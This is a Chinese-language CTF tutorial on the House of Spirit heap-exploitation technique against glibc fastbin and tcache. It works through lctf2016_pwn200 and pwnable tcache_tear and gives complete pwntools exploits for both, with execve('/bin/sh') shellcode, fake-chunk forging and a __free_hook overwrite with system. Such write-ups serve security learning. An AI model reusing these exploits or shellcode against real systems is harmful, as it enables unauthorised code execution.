


# House of Spirit

## 1.基本原理

主要针对 fastbin 和 tcache 的攻击

利用方式是对 `double_free` 和 `UAF` 漏洞的进一步利用，**伪造 fakechunk**，实现对任意内存写

通过伪造一个堆块 fake_chunk(该堆块并不是通过 malloc 申请回来的)，利用 free 的机制将该 fake_chunk 放入链表之中，再次通过 malloc 将该 fake_chunk 申请，从而实现对不可控的区域可控

与 fastbin double free 的区别是 double free 是将本来 malloc 的内存进行两次释放，通过再次申请修改 fd 指针


## 2.针对 fastbin

伪造条件：

* **标志位：**
  * N：一般为主线程的堆，多以 N 设置为 0
  * M：设置为 0，表示是不是由 mmap 分配的，否则会单独处理
  * P：设置为 1，表示前一个 chunk 没有 free，不会触发 unlink 机制
* **内存对齐：**
  * 32 位 8 字节对齐，64 位 16 字节对齐
* **size 大小：**
  * 由于需要放入 fastbin 中，所以 size 要与要放入的 fastbin 链表的 size 大小相同
* **fakechunk 的 nextchunk 大小：**
  * nextchunk 的大小不能小于 2 * SIZE_SZ ，同时也不能大于 av-> system_mem

### 2.1 例题：lctf2016_pwn200

整个函数的栈空间：


```c
int sub_400A8E()
{
  __int64 i; // [rsp+10h] [rbp-40h]
  char v2[48]; // [rsp+20h] [rbp-30h] BYREF

  puts("who are u?");
  for ( i = 0LL; i <= 47; ++i )
  {
    read(0, &v2[i], 1uLL);
    if ( v2[i] == 10 )
    {
      v2[i] = 0;
      break;
    }
  }
  printf("%s, welcome to ISCC~ \n", v2);
  puts("give me your id ~~?");
  readfromcin();
  return sub_400A29();
}
```

* read 中存在 off by one 漏洞，通过读入 48 字节数据正好可以泄露出 rbp 上的值，由于栈可执行，这里面我们也可以放入 shellcode，但是需要注意不能有 `\x00`, 因为打印出来时会出现截断的情况

* 该函数的 readfromcin()其实会把返回值 id 存到栈空间上


```c
int sub_400A29()
{
  char mony[56]; // [rsp+0h] [rbp-40h] BYREF
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL);
  puts("give me money~");
  read(0, mony, 64uLL);
  strcpy(dest, mony);
  ptr = dest;
  return sub_4009C4();
}
```

* 这里的 read 存在一个栈溢出，可以溢出 8 字节，正好修改 dest 指针的值
* 修改 dest 后，成功修改 ptr 指针，而 ptr 是存储在 bss 段
* 而后面的 free 是 ptr 所指向的堆块，并且 free 后将 ptr 指针置 0，防止 UAF

故构造如下堆块，实现 house of spirit：

在一开始的 name 输入中放入 shellcode，利用 id 写入一个 size 大小，后面，我们只能控制 buf 区域，并且 dest 原本是指向堆的，这里修改为 fakechunk 的 fd

释放 fakechunk 时 fakechunk 入 fastbin，malloc 一次申请出来，这样我们就可以实现对于不可控的区域可控，修改返回地址为 shellcode 的地址即可跳转至 shellcode



```python
from pwn import *

elf_path = './pwn200'
elf = ELF(elf_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# session = ssh(host ='node5.buuoj.cn', port = 26482, user ='CTFMan', password ='guest')
# p = session.process(['./vuln'])
#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------
payload = asm('''
            xor 	rsi, rsi
            push	rsi	
            mov 	rdi, 0x68732f2f6e69622f
            push	rdi
            push	rsp		
            pop	    rdi			
            mov 	al,	59	
            cdq				
            syscall
        ''')
payload = payload.ljust(48, b"a")
sa(b"who are u?\n", payload)
rbp_addr = u64Leakbase(0) - 0x60 - 0x60
li("rbp_addr", rbp_addr)

sla(b"give me your id ~~?\n", str(0x41).encode())
# gdb.attach(p, " b *0x400A3B ")
# pause()
payload = b""
payload += p64(0)
payload += p64(0x61)
payload = payload.ljust(0x38, b"b")
payload += p64(rbp_addr + 0x10)
sla(b"give me money~\n", payload)

sla(b"your choice :", str(2).encode())
sla(b"your choice :", str(1).encode())
sla(b"how long?", str(0x58).encode())
sla(b"give me more money : ", b"c"*0x38+p64(rbp_addr+0x70))
sla(b"your choice : ", str(3).encode())
it()
```


## 3.针对 tcache

与 fastbin 利用类似

### 3.1 例题：pwnable_tcache_tear

题目环境：glib2.27



只有 add，delete，info 三个功能，并且 info 功能限制了只能展示 bss 区的 name，但 delete 区域存在 uaf 漏洞，free 之后没有将 ptr 指针情况，导致可以 tcache dup，导致任意地址写，但是 free 限制了只能 free8 次

这一题根据保护情况，got 表写死，无法进行修改，只能打 hook

所以需要泄露 libc 地址，但是 info 只能显示 bss 段的 name，所以需要将 libc 地址写入 bss 段，那么 bss 段肯定要伪造出 chunk 才能在 free 后写入 libc 中的地址

所以利用tcache dup拿到bss段，但是里面仍然无法写入libc中的地址，所以需要先利用house of spirit（其实这里用的还是tcache dup，只是方法有点像house of spirit）伪造出chunk，再次tcache dup，释放内存（在此之前伪造size），那么就可以释放进入unsorted bin，那么bss段中也就有了libc的地址

泄露完地址后，还需要再次tcache dup，拿到__free_hook的内存地址，写入system，getshell

解题过程中的问题：

* 如果第一次tcache时不在data中写入数据，那么在两次tcache_dup后free会触发`double free or corruption (!prev)'`

  ```python
  tcache_dup(0x50, b'', (name_addr+0x500))
  ```

  查看源码报错位置：

  ```c
  /* Or whether the block is actually not marked used.  */
  if (__glibc_unlikely (!prev_inuse(nextchunk)))
    malloc_printerr ("double free or corruption (!prev)");
  ```

  那么问题出在该伪造的chunk没有nextchunk的情况下，我们需要往后伪造一个chunk

* 即使伪造了一个fakechunk，还是会出现`corrupted size vs. prev_size`问题，unlink中的检查报错

  ```c
  tcache_dup(0x50, p64(0)+p64(0x21)+p64(0)*2, (name_addr+0x500))
  ```

  ```c
  unlink_chunk (mstate av, mchunkptr p)
  {
    if (chunksize (p) != prev_size (next_chunk (p)))
      malloc_printerr ("corrupted size vs. prev_size");
  ```

  其实这里我们一开始就思考错了方向，其实我们这里是卡在了unlink上，但正常我们后面伪造的chunk应该都是分配了，没有free，inuse应该都为1，跳到外层看一下代码：
  
  这里会先判断nextchunk是不是topchunk，接下来会获取nextchunk的nextchunk，然后获取inuse位，我们期望的情况是返回1，这样就不会进入下面的unlink操作，所以需要构造两个chunk
  
  ```c
  /* check/set/clear inuse bits in known places */
  #define inuse_bit_at_offset(p, s)					      \
    (((mchunkptr) (((char *) (p)) + (s)))->mchunk_size & PREV_INUSE)
  ```
  
  ```c
  if (nextchunk != av->top) {
    /* get and clear inuse bit */
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
  
    /* consolidate forward */
    if (!nextinuse) {
  unlink_chunk (av, nextchunk);
  size += nextsize;
    } else
  clear_inuse_bit_at_offset(nextchunk, 0);
  ```
  
  

exp：

```python
from pwn import *

elf_path = './tcache_tear'
elf = ELF(elf_path, checksec=False)
libc = ELF('./libc-2.27.so')
context(arch=elf.arch, os=elf.os, log_level="debug")
ip = 'node5.buuoj.cn'
port = 26663

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(size, data):
    sla(b"Your choice :", b"1")
    sla(b"Size:", str(size).encode())
    sla(b"Data:", data)

def delete_chunk():
    sla(b"Your choice :", b"2")

def info():
    sla(b"Your choice :", b"3")

def exit_p():
    sla(b"Your choice :", b"4")

def tcache_dup(size, data, addr):
    add_chunk(size, b'a')
    delete_chunk()
    delete_chunk()
    add_chunk(size, p64(addr))
    add_chunk(size, b'a')
    add_chunk(size, data)

name_addr = 0x602060
sla(b"Name:", p64(0)+p64(0x501))
tcache_dup(0x50, ((p64(0)+p64(0x21)+p64(0)*2)*2), (name_addr+0x500))
tcache_dup(0x60, b'a', (name_addr+0x10))
# gdb.attach(p)
# pause()
delete_chunk()

info()
libc.address = u64Leakbase(0x3ebca0)
free_hook = libc.sym['__free_hook']
system_addr = libc.sym['system']
li("libc_addr", libc.address)
li("free_hook", free_hook)

tcache_dup(0x70, p64(system_addr), free_hook)

add_chunk(0x80, b'$0\x00')
delete_chunk()

p.interactive()
```

